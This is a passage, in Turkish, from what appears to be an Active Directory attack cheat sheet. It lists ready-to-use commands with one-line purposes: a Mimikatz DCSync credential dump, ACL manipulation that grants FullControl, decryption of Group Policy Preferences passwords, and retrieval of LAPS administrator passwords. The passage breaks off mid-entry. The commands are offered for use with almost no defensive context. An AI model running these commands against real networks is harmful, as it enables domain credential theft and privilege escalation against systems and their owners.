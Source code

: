 #### `Invoke-Mimikatz -Command "lsadump::dcsync"`
**Amaç:** DCSync saldırısını PowerShell üzerinden çalıştırır.

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /domain:<domain> /user:<username>"
```

---

### 2.7. ACL ve DACL Manipülasyonu

#### `Get-ObjectAcl`
**Amaç:** Nesneler üzerindeki erişim kontrol listelerini (ACL) analiz eder.

```powershell
Get-ObjectAcl -SamAccountName <object_name>
```

#### `Set-ObjectAcl`
**Amaç:** Nesneler üzerindeki ACL'leri değiştirir.

```powershell
Set-ObjectAcl -TargetDistinguishedName <dn> -PrincipalSamAccountName <username> -Rights FullControl
```

---

### 2.8. GPP (Group Policy Preferences) Zafiyetleri

#### `gpp-decrypt`
**Amaç:** GPP'de saklanan şifreleri decrypt eder.

```bash
gpp-decrypt <cpassword>
```

#### `Invoke-SearchGPPPassword`
**Amaç:** Group Policy Preferences içinde saklanan şifreleri arar ve decrypt eder.

```powershell
Invoke-SearchGPPPassword
```

---

### 2.9. LAPS (Local Administrator Password Solution) Zafiyetleri

#### `Get-AdmPwdPassword`
**Amaç:** LAPS tarafından yönetilen parolaları alır.

```powershell
Get-AdmPwdPassword -ComputerName <computer>
```

#### `Find-LAPSDelegatedGroups`
**Amaç:** LAPS yönetici gruplarını ve yetkililerini listeler.
